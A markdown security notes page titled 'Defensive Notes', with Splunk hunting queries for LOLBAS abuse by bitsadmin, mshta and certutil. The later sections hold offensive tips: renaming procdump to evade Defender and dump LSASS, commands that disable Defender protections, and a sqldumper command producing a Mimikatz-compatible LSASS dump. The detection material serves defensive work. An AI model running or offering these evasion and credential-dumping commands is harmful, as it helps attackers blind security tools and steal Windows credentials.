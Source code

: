 ```yaml
---
title: "Defensive Notes" 
layout: "post"
---
```


## LOLBAS Use case

In the section below we will implement some LOLBAS use case using Splunk as a framework to perform our hunting activities.

__Note:__ These detections rules are specific to my environment


# 1) Bitsadmin Download File

The following query identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object. 
In addition, look for download or upload on the command-line, the switches are not required to perform a transfer.

```powershell 
| tstats `security_content_summariesonly` count min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_bitsadmin` Processes.process=*transfer* by Processes.dest Processes.user Processes.parent_process Processes.original_file_name Processes.process_name Processes.process Processes.process_id Processes.parent_process_id | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)` | `security_content_ctime(lastTime)` | `bitsadmin_download_file_filter`
```

# 1) powershell

# 2) rundll32

# 3) mshta

The following analytic identifies "mshta.exe" execution with inline protocol handlers. "JavaScript", "VBScript", and "About" are the only supported options when invoking HTA content directly on the command-line.

```powershell
| tstats `security_content_summariesonly` count values(Processes.process) as process values(Processes.parent_process) as parent_process min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_mshta` (Processes.process=*vbscript* OR Processes.process=*javascript* OR Processes.process=*about*) by Processes.user Processes.process_name Processes.original_file_name Processes.parent_process_name Processes.dest  | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)`| `security_content_ctime(lastTime)` | `detect_mshta_inline_hta_execution_filter`
```


# 4) Certutil Download With Urlcache And Split Arguments

Certutil.exe may download a file from a remote destination using -urlcache. This behavior does require a URL to be passed on the command-line. In addition, -f (force) and -split (Split embedded ASN.1 elements, and save to files) will be used.

```powershell
| tstats `security_content_summariesonly` count min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_certutil` Processes.process=*urlcache* Processes.process=*split* by Processes.dest Processes.user Processes.parent_process Processes.process_name Processes.process Processes.process_id Processes.original_file_name Processes.parent_process_id | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)` | `security_content_ctime(lastTime)` | `certutil_download_with_urlcache_and_split_arguments_filter`
```

# 5) wmic


__Note:__ This is not an exaustive list of LOLBAS to monitor but rather a baseline. Your environment define your tailor made detection rules.

https://docs.splunksecurityessentials.com/content-detail/certutil_download_with_urlcache_and_split_arguments/




# Notepad cache

[lazy]People like me use Notepad++ as a note-taking thing. We create a 'new', then never get around to saving them.

They get cached here:
C:\Users\{username}\AppData\Roaming\Notepad++\backup

# Procdump.exe 

If you rename procdump.exe to dump64.exe and place it in the "C:\Program Files (x86)\Microsoft Visual Studio\*" folder, you can bypass Defender and dump LSASS.


# Disable Defender 

shell Set-MpPreference -DisableRealtimeMonitoring $true 
shell Set-MpPreference -EnableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableScanningNetworkFiles $true
Set-MpPreference -MAPSReporting 0
Set-MpPreference -DisableCatchupFullScan $True
Set-MpPreference -DisableCatchupQuickScan $True

# SQldumper LSASS

0x01100:40 flag will create a Mimikatz compatible dump file.
sqldumper.exe 540 0 0x01100:40
Usecase: Dump LSASS.exe to Mimikatz compatible dump using PID.

